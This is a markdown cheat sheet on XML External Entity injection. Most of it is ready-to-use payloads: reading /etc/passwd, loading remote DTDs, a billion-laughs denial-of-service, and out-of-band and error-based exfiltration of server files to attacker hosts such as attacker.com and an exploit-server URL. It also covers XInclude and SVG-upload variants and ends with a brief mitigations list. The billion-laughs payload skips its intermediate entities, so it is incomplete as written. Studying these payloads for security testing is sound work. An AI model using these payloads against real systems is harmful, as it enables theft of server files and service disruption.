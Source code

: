 
XML External Entity (XXE) vulnerabilities occur when an application processes XML input and allows the inclusion of external entities. This can be exploited to access sensitive information, execute server-side requests, or perform denial-of-service (DoS) attacks.

**[Complete Payloads List](https://github.com/payloadbox/xxe-injection-payload-list)

---

## **Types of XXE Vulnerabilities**

1. **In-band XXE:**  
	- The attacker gets the response directly from the server.
    - **Example:** Reading local files via `file://` scheme.

2. **Out-of-band (OOB) XXE:**  
    - The attacker receives the data via an external server (useful when in-band response is blocked).    
    - **Example:** Using HTTP requests to exfiltrate data.

3. **DoS-based XXE:**  
    - Leveraging recursive entity definitions to exhaust server resources.
    - **Example:** Billion laughs attack (`&lol9;` nested entities).

---

## **Exploitation Techniques**

### Common Payloads

**[Complete Payloads List](https://github.com/payloadbox/xxe-injection-payload-list)

#### **Read local files:**

```xml
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///etc/passwd">]>  
<foo>&xxe;</foo>
```

#### **Remote file inclusion:**

```xml
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "http://malicious.com/evil.dtd">]>  
<foo>&xxe;</foo>
```

#### **Billion laughs attack:**

```xml
<!DOCTYPE lolz [  
<!ENTITY lol "lol">  
<!ENTITY lol2 "&lol;&lol;">  
<!ENTITY lol3 "&lol2;&lol2;">  
<!ENTITY lol9 "&lol8;&lol8;">]>  
<foo>&lol9;</foo>
```

#### **Exfiltration via OOB:**

```xml
<!DOCTYPE data [<!ENTITY xxe SYSTEM "http://attacker.com/?data=file:///etc/passwd">]>  
<foo>&xxe;</foo>
```

#### **Exfiltration via malicious external DTD:**

`https://exploit-0a8500e0036d98ed810210e0013e00c1.exploit-server.net/exploit.dtd`

```dtd
<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'https://exploit-0a8500e0036d98ed810210e0013e00c1.exploit-server.net/exploit.dtd/?x=%file;'>">
%eval;
%exfiltrate;
```

`Payload`

```xml
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM
"https://exploit-0a8500e0036d98ed810210e0013e00c1.exploit-server.net/exploit.dtd"> %xxe;]>
```

#### **Error-based Exfiltration via external DTD:**

`https://exploit-0a8500e0036d98ed810210e0013e00c1.exploit-server.net/exploit.dtd`

```dtd
<!ENTITY % file SYSTEM "file:///etc/passwd"> 
<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>"> %eval; 
%error;
```

`Payload`

```xml
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM
"https://exploit-0a8500e0036d98ed810210e0013e00c1.exploit-server.net/exploit.dtd"> %xxe;]>
```

#### **Repurposing a Local DTD:**

`Search for local DTD`

```xml
<!DOCTYPE foo [
<!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
%local_dtd;
]>
```

Since this XXE attack involves repurposing an existing DTD on the server filesystem, a key requirement is to locate a suitable file. This is actually quite straightforward. Because the application returns any error messages thrown by the XML parser, you can easily enumerate local DTD files just by attempting to load them from within the internal DTD.

For example, Linux systems using the GNOME desktop environment often have a DTD file at `/usr/share/yelp/dtd/docbookx.dtd`.

After you have tested a list of common DTD files to locate a file that is present, you then need to obtain a copy of the file and review it to find an entity that you can redefine. Since many common systems that include DTD files are open source, you can normally quickly obtain a copy of files through internet search. For e.g. ISOamsa as shown below:

`Payload:`

```dtd
<!DOCTYPE foo [
<!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
<!ENTITY % ISOamsa '
<!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
<!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
&#x25;eval;
&#x25;error;
'>
%local_dtd;
]>
```

#### **Hidden Attack Surface XXE:**

**XInclude Attack :**

```xml
<foo xmlns:xi="http://www.w3.org/2001/XInclude"> <xi:include parse="text" href="file:///etc/passwd"/></foo>
```

**XXE attacks via file upload :**

Even if the application expects to receive a format like PNG or JPEG, the image processing library that is being used might support SVG images. Since the SVG format uses XML, an attacker can submit a malicious SVG image and so reach hidden attack surface for XXE vulnerabilities.

```xml
<?xml version="1.0" standalone="yes"?><!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]><svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1"><text font-size="16" x="0" y="16">&xxe;</text></svg>
```

**XXE attacks via modified content type :**

Most POST requests use a default content type that is generated by HTML forms, such as `application/x-www-form-urlencoded`. Some web sites expect to receive requests in this format but will tolerate other content types, including XML.
If the application tolerates requests containing XML in the message body, and parses the body content as XML, then you can reach the hidden XXE attack surface simply by reformatting requests to use the XML format.

---
## **Mitigations**

2. **Disable External Entities:**  
    - Ensure XML parsers do not process external entities:

```java
factory.setFeature("http://xml.org/sax/features/external-general-entities", false); factory.setFeature("http://xml.org/sax/features/external-parameter-entities", false);
```

3. **Use Secure Libraries:**  
    - Opt for parsers that are not vulnerable to XXE by default (e.g., `defusedxml` in Python).

4. **Input Validation:**  
    - Restrict the type and structure of accepted XML inputs.

5. **Content Security Policies (CSP):**  
    - Limit network connectivity from backend servers to prevent OOB data exfiltration.

6. **Access Control:**  
    - Restrict file system access to XML parsers to prevent unauthorized file reads.

7. **Monitoring and Logging:**  
    - Monitor suspicious requests and log parsing errors or unauthorized access attempts.

